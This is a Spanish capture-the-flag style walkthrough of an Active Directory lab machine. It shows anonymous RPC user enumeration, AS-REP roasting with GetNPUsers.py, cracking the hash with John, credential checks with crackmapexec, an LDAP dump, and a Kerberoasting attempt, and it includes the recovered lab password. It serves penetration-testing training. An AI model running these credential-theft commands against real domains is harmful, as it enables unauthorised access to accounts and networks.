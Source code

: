 ## Vulnerability Assessment {-}

### Asproasting Attack {-}

Los ataques Asproasting se pueden manejar con la utilidad `GetNPUsers.py`

```bash
cd content
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v 
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]'
rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > users.txt
GetNPUsers.py htb.local/ -no-pass -userfile users.txt 2>/dev/null
```

Aqui vemos el TGT del usuario **svc-alfresco**. Copiamos todo el hash del usuario svc-alfresco en un fichero llamado hash
y lo crackeamos con John


### Crackeando el hash con John {-}

```bash
john -wordlists=/usr/share/wordlists/rockyou.txt hash
```

Aqui encontramos su contraseña. Ya podemos effectuar un Kereroasting attack. Pero primero, como siempre, credenciales encontradas son 
credenciales que checkeamos con crackmapexec

```bash
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

### LDAP enumeracion con ldapdomaindump {-}

Esta utilidad nos permitte recuperar en formato html las informaciones del servicio LDAP.

```bash
cd /var/www/html
ldapdomaindump -u 'htb.local/svc-alfresco' -p 's3rvice' 10.10.10.161
service apache2 start
```

y podemos mirarlo con firefox en localhost

### Kereroasting attack {-}

Los ataques Kereroasting se pueden manejar con la utilidad `GetUserSPNs.py`

```bash
GetUserSPNs.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -request -dc-ip 10.10.10.161
```

Esta utilidad nos retorna un mensaje como que no son las buenas credenciales. Si es el caso vamos si nos podemos connectar
por win-rm.


